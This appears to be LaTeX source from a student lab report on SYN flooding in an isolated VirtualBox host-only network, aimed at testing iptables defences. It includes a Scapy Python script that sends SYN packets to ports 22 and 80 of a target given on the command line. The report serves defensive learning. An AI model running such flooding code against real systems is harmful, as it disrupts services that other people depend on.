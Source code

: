\documentclass[11pt]{article}
\begin{document}
The machines will be connected through the VirtualBox “Hostonly” network adapter. By using this method, VirtualBox creates virtual adapters for connections and doesn't try to use a physical network adapter. This setup requires creating a host-only adapter (if none exists).

\subsection{Description of the SYN flooding script}
This script is based on the original created by \href{https://github.com/subodhp}{Subodh Pachghare} in which the VM attacker sends malformed SYN connection packets to the target:\vspace{5mm}

\begin{lstlisting}

#! /usr/bin/env python
# Name : Subodh Pachghare
# CyberSpace Name : HaX0R (Cyberninja)
# Website : www.thesubodh.com
# Description : SYN Flood Packet creation for iptables prevention solution
import sys
from scapy.all import *
#conf.verb=0
print "Field Values of packet sent"
p=IP(dst=sys.argv[1],id=1111,ttl=99)/TCP(sport=RandShort(),dport=[22,80],seq=12345,ack=1000,window=1000,flags="S")/"HaX0r SVP"
ls(p)
print "Sending Packets in 0.3 second intervals for timeout of 4 sec"
ans,unans=srloop(p,inter=0.3,retry=2,timeout=4)
print "Summary of answered & unanswered packets"
ans.summary()
unans.summary()
print "source port flags in response"
#for s,r in ans:
# print r.sprintf("%TCP.sport% \t %TCP.flags%")
ans.make\_table(lambda(s,r): (s.dst, s.dport, r.sprintf("%IP.id% \t %IP.ttl% \t %TCP.flags%")))

\end{lstlisting}

\section{Conclusion}\index{}


\clearpage

\section{References and bibliography}\index{}

\url{https://www.owasp.org/index.php/Denial\_of\_Service}\break
\url{https://resources.sei.cmu.edu/asset\_files/WhitePaper/1996\_019\_001\_496172.pdf#page=123}\break
\url{http://citeseerx.ist.psu.edu/viewdoc/download?doi=10.1.1.206.5378&rep=rep1&type=pdf}\break
\url{https://en.wikipedia.org/wiki/SYN\_flood}\break
\url{https://scapy.readthedocs.io/en/latest/introduction.html#about-scapy}\break
\url{https://www.virtualbox.org/manual/ch06.html#network\_hostonly}\break
\url{https://condor.depaul.edu/glancast/443class/docs/vbox\_host-only\_setup.html}\break
\url{https://kerneltalks.com/networking/basics-of-iptables-linux-firewall/}\break
\url{https://www.netfilter.org/projects/iptables/index.html}\break

\printindex
\end{document}
